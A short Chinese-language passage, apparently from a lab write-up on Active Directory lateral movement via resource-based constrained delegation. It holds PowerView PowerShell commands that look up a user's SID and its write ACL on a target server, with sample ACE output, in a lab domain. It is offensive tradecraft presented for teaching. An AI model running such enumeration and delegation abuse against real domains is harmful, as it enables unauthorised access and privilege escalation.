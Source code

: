 ![write](./write.jpg)

### 攻击复现

假设我们已经获取WIN7主机权限，为了横向到WIN2012主机，借助User1对WIN2012的写入权限，我们可以创建从WIN7到WIN2012的基于资源的约束性委派

```powershell
Import-Module .\PowerView.ps1
$AttackerSID = Get-DomainUser User1 -Properties objectsid | Select -Expand objectsid
$ACE = Get-DomainObjectACL "WIN2012.xie.com" -ResolveGUIDs | ?{$_.SecurityIdentifier -match $AttackerSID}
$ACE | Select-Object ObjectAceType,ActiveDirectoryRights


#BinaryLength          : 36
#AuditFlags            : None
#InheritanceFlags      : None
#PropagationFlags      : None
#AceFlags              : None
#AccessMask            : 131132
#AceType               : AccessAllowed
#ObjectSID             : S-1-5-21-2255574704-2553525763-2083768959-1143
```